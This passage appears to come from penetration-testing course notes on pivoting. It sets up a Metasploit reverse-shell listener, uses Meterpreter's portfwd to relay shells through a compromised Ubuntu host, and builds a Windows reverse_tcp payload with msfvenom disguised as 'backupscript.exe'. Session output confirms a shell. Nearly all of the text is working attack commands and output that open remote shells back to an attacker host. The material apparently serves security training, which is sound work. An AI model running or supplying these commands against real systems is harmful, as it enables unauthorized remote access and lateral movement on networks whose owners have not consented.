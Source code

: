 Now, we start a listener in our kali:

```
msfconsole -q
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_https
set lhost 0.0.0.0
set lport 8000
run
```

Now we  execute the payload from the Windows target.

We will receive the reverse shell.

#### Module `portfwd` in metasploit

Reverse  port forwarding can also be accomplished using Meterpreter's `portfwd` module,  where you might want to listen on a specific port on the compromised server and forward all incoming shells from the Ubuntu server to our attack host.

We will start a listener on a new port on our attack host for Windows and request the Ubuntu server to forward all requests received to the Ubuntu server on port `1234` to our listener on port `8081`.

```shell-session
meterpreter > portfwd add -R -l 8081 -p 1234 -L 192.64.166.3
```

**1.** Configuring & Starting multi/handler

```shell-session
meterpreter > set payload windows/x64/meterpreter/reverse_tcp
set LPORT 8081 
set LHOST 0.0.0.0 
run
```

We can now create a reverse shell payload that will send a connection back to our Ubuntu server on `192.182.147.2`:`1234` when executed on our Windows host. Once our Ubuntu server receives this connection, it will forward that to `attack host's ip`:`8081` that we configured.

```shell-session
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.182.147.2 -f exe -o backupscript.exe LPORT=1234
```

Finally, if we execute our payload on the Windows host, we should be able to receive a shell from Windows pivoted via the Ubuntu server.

```shell-session
# #### Establishing the Meterpreter session
[*] Started reverse TCP handler on 0.0.0.0:8081 
[*] Sending stage (200262 bytes) to 192.64.166.3
[*] Meterpreter session 2 opened (192.64.166.3:8081 -> 192.64.166.3:40173 ) at 2022-03-04 15:26:14 -0500

 
meterpreter > shell
```
